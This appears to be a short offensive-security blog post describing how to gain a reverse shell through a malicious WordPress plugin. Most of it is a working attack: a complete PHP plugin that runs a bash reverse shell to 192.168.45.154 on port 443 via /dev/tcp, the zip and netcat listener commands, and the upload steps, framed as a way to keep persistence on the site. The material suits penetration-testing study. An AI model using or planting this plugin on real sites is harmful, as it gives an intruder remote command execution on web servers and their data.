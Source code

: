 ```yaml
---
layout: post
title: WordPress Plugin Reverse Shell
titledate: 08/26/23
tags: ["infosec","offsec", "web", "wordpress","exploit","shell"]
---
```


[WordPress  Plugin Reverse Shell](https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell)

To upload our own plugin we need access to the WordPress Dashboard. We would drop the plugin in the wp-content/plugins folder if we were on the server.

Having the webshell would allow us to maintain persistence by storing our code in the WordPress application

```php
<?php
/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.154/443 0>&1'");
?>
```
To upload a WP plugin we need to zip it

    $ zip rshll-plugin.zip ./rshll-plugin.php

Before we upload the plugin we need to start a reverse listener with NC

    $ nc -lvp 443

Next we Upload via the WP UI - Plugins - Upload Plugin - Browse - Activate Plugin

w00t

![_config.yml]({{ site.baseurl }}/images/web/wp_plugin_shell.png)


